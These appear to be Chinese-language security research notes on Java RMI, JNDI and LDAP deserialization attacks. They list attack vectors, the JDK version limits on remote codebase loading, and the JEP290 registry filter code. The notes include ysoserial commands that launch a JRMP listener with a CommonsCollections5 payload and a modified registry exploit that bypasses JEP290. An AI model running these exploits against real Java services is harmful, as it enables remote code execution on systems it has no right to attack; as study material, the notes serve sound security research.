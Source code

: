 攻击server

+ RMI Registry
+ RMI Service Provider
+ JEP290的攻击方式见下文

攻击client

+ RMI + JRMP serialized data
+ RMI + JNDI naming reference
+ LDAP + JNDI naming reference
+ RMI + local gadgets
+ LDAP + local gadgets
+ LDAP + local reference factory

## 安全限制

+ RMI codebase：`5u45, 6u45, 7u21, 8u121`

+ LDAP codebase：`JDK11.0.1, 8u191, 7u201, 6u211`

+ JEP290：反序列化过程中增加`filterCheck`，`6u141, 7u131, 8u121, jdk9`后增加

  `sun/rmi/registry/RegistryImpl.java`中：
  
  ```java
  if (String.class == clazz
      || java.lang.Number.class.isAssignableFrom(clazz)
      || Remote.class.isAssignableFrom(clazz)
      || java.lang.reflect.Proxy.class.isAssignableFrom(clazz)
      || UnicastRef.class.isAssignableFrom(clazz)
      || RMIClientSocketFactory.class.isAssignableFrom(clazz)
      || RMIServerSocketFactory.class.isAssignableFrom(clazz)
      || java.rmi.activation.ActivationID.class.isAssignableFrom(clazz)
      || java.rmi.server.UID.class.isAssignableFrom(clazz)) {
      return ObjectInputFilter.Status.ALLOWED;
  } else {
      return ObjectInputFilter.Status.REJECTED;
}
  ```

  **攻击Registry**
  
  `ysoserial.payload.JRMPClient`中使用UnicastRef绕过
  
  ```
  java -cp ysoserial.jar ysoserial.exploit.JRMPListener 23333 CommonsCollections5 calc
  
  // RMINop是我自己改了RMIRegistryExploit，直接bind，不封装Proxy
  java -cp ysoserial.jar ysoserial.exploit.RMINop 127.0.0.1 9999 JRMPClient 127.0.0.1:2333
  ```
  
  PowerShell直接重定向的话，由于默认UTF-16LE编码，序列化数据魔数会出错，Windows10 1903上使用cmd没问题

  **攻击Service Provider**

  Registry注册的接口存在以Object为参数的方法，远程调用时即可传递序列化的Object参数
